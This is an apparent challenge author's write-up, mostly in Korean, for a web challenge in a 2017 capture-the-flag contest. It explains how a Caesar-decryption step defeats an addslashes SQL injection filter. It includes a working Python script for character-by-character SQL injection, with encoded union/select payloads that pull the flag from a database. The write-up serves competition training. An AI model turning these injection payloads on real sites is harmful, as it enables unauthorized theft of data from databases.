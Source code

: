 # WhiteHat League 1 - Demon CTF [![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)](https://github.com/sindresorhus/awesome)
Mini kubed Write-Up - 출제자 풀이
-----------------------------------

## Introduce
* Author : 박광호 ([debukuk](http://debu.kr/))
* Field  : Web
* E-Mail : debukuk154@gmail.com
* Date   : 2017-09-12

## Intention
* sql injection 필터링이 되는데 이걸 카이사르 디코딩이 되면서 우회를 할 수 있는가?
* sleep based sql injection 을 할 수 있는가?
* 플래그 형식은 **Demon{...}**

## Solve
* 공방전 플래그를 따보자 슥슥

auth 함수를 보면 $flag = decrypt( $flag, 0x7 ); 이부분에서 카이사르 decrypt 를 해주는데(`$r .= chr( ord( $plain[ $i ] ) - $key );`) 카이사르 복호화를 진행하면서 sqli_filter 함수에서 addslashes 함수로 sql injection을 방어하던 코드가 우회됩니다.<br>

그래서 auth 부분에 인젝션을 해서 플래그를 뽑아내면 됩니다.<br>

### Solver
~~~python

import requests

ret = ''

def encrypt(val, key):
    rst = ''
    for i in range(0, len(val)):
        rst += chr(ord(val[i])+key)
    return rst

"""
def decrypt(val, key):
    rst = ''
    for i in range(0, len(val)):
        rst += chr(ord(val[i])-key)
    return rst
"""

for i in range(1, 39 + 1):
    for j in range(32 + 0x7, 127):
        payload = "'/**/union/**/select/**/1,0,3,if(ascii(substr((select/**/flag/**/from/**/task/**/where/**/score=99999999)," + str(i) + ",1))=" + str(j) + ",1,0)#"
        s = requests.Session()
        r = s.post('http://s1.forensics.site/?auth', {'flag': encrypt(payload, 0x7)}, cookies={'_token': "h059uj7mee1v74h0nu1gie66r3", "pangho_dd": 'asdsa'})
        if (r.text).find("Congratz") != -1:
            ret += chr(j)
            print("[*] So far till '" + ret + "' & '" + encrypt(ret, 0x7) + "' result")
            break

print("End result: " + ret)
print("End decoding result: " + encrypt(ret, 0x7))
~~~
